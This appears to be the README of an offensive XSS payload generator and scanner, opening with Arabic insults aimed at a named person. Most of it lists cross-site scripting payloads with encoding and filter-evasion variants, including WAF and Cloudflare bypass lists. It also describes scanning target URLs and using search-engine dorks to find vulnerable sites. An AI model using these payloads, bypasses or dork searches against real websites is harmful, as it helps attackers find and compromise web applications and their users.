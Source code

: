 # XSS-Damn-you-Khalil-Djaariri

# تبا لكم ايها الاغبياء تبا لكم جميعا حمقى 

# غبي تتحدى المافيا استمتع بي سكربت الزعيم تبا لي اعدارك جميعا

# Note! : We don't Accept any responsibility for any illegal usage.

# cd Installation cd

git clone https://github.com/spyeye-dz/XSS-Damn-you-Khalil-Djaariri

cd XSS-FSOCIETY

pip3 install -r requirements.txt

python3 payloader.py

card_file_box Features card_file_box

*Basic Payload

Sets default parameter to :<script>alert(1)</script>
*Div Payload

Sets default parameter to :<div onpointerover='alert(1)'>MOVE HERE</div
*Img Payload

Sets default parameter to :<img src=x onerror=alert('1');>
*Body Payload

Sets default parameter to :<body ontouchstart=alert(1)>
*Svg Payload

Sets default parameter to :<svg onload=alert('1')>
*Enter Your Payload

Encodes payload writed by user
*Payload Generator Parameter

Encodes payload on selected tag

* |   1.  UPPER CASE---->  <SCRIPT>ALERT(1)</SCRIPT>              
* |   2.  UPPER AND LOWER CASE----> <ScRiPt>aleRt(1)</ScRiPt>   
* |   3.  URL ENCODE ----->   %3Cscript%3Ealert%281%29%3C%2Fscript%3E           
* |   4.  HTML ENTITY ENCODE----->  &lt;script&gt;alert(1)&lt;/script&gt; 
* |   5.  SPLIT PAYLOAD ----->  <scri</script>pt>>alert(1)</scri</script>pt>>       
* |   6.  HEX ENCODE ----->  3c7363726970743e616c6572742831293c2f7363726970743e       
* |   7.  UTF-16 ENCODE -----> Encode payload to utf-16 format.   
* |   8.  UTF-32 ENCODE----->  Encode payload to utf-32 format.          
* |   9.  DELETE TAG -----> ";alert('XSS');//            
* |  10.  UNICODE ENCODE----->    %uff1cscript%uff1ealert(1)%uff1c/script%uff1e         
* |  11.  US-ASCII ENCODE ----->  ¼script¾alert(1)¼/script¾      
* |  12.  BASE64 ENCODE ----->   PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==          
* |  13.  UTF-7 ENCODE ----->   +ADw-script+AD4-alert(1)+ADw-/script+AD4-           
* |  14.  PARENTHESIS BYPASS ----->  <script>alert`1`</script>   
* |  15.  UTF-8 ENCODE ----->  %C0%BCscript%C0%BEalert%CA%B91)%C0%BC/script%C0%BE          
* |  16.  TAG BLOCK BREAKOUT-----> "><script>alert(1)</script>
* |  17.  SCRIPT BREAKOUT----->  </script><script>alert(1)</script>
* |  18.  FILE UPLOAD PAYLOAD-----> "><script>alert(1)</script>.gif
* |  19.  INSIDE COMMENTS BYPASS-----> <!--><script>alert(1)</script>-->
* |  20.  MUTATION PAYLOAD-----> <noscript><p title="</noscript><script>alert(1)</script>">
* |  21.  MALFORMED IMG-----> <IMG """><script>alert(1)</script>">
* |  22.  SPACE BYPASS-----> <img^Lsrc=x^Lonerror=alert('1');>
* |  23.  DOWNLEVEL-HIDDEN BLOCK-----> <!--[if gte IE 4]><script>alert(1)</script><![endif]-->
* |  24.  WAF BYPASS PAYLOADS-----> Show Waf Bypass Payload List
* |  25.  CLOUDFLARE BYPASS PAYLOADS-----> Show Cloudflare Bypass Payload List
* |  26.  POLYGLOT PAYLOADS-----> Show Polyglot Bypass Payload List
* |  27.  ALERT PAYLOADS-----> Show Alert Payload List
* |  28.  ALL CREATE PAYLOAD-----> Show Create All Payloads
* |  29.  GO BACK MAIN MENU
* |  30.  EXIT

*Xss Scanner

Initially you'll need to enter url of target Please enter the url like this example==>e.g target -----> http://target.com/index.php?name= Selected for scanning payload list

    BASIC PAYLOAD LIST ==> Payload list consisting of script tag
    DIV PAYLOAD LIST ==> Payload list consisting of div tag
    IMG PAYLOAD LIST ==> Payload list consisting of img tag
    BODY PAYLOAD LIST ==> Payload list consisting of body tag
    SVG PAYLOAD LIST ==> Payload list consisting of svg tag
    MIXED PAYLOAD LIST ==> Payload list consisting of all tag
    ENTER FILE PATH ==> Payload list determined by the user ,Please enter the url like this example..! (e.g. path -----> /usr/share/wordlists/wfuzz/Injections/XSS.txt)

Results will be added in "vulnpayload.txt" after scanning.
*Xss Dork Finder

First enter the dork for searching: e.g---->inurl:"search.php?q=" Results will be saved in "dork.txt" after scanning.
Known Issues
Fixed:

    Unicode errors

    Module errors

Important:

If you want to use tool for python3 installed on Windows download below link:
https://github.com/PHOENIX7713/XSS-PHOENIX.git
Bugs and enhancements

For bug reports or enhancements, please open an issue here.
Support and Donations

Contact us with email oanonymous85@gmail.com.com.tr

Copyright 2020
